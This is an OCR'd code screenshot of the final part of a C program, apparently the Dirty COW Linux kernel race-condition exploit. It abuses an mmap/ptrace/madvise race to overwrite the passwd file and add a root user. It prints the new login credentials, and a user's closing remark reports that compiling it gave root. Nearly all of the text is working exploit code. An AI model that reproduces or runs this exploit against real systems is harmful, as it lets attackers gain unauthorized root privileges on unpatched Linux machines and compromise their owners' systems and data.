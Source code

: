 ```clike=
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```
I followed the compilation steps, and I get root
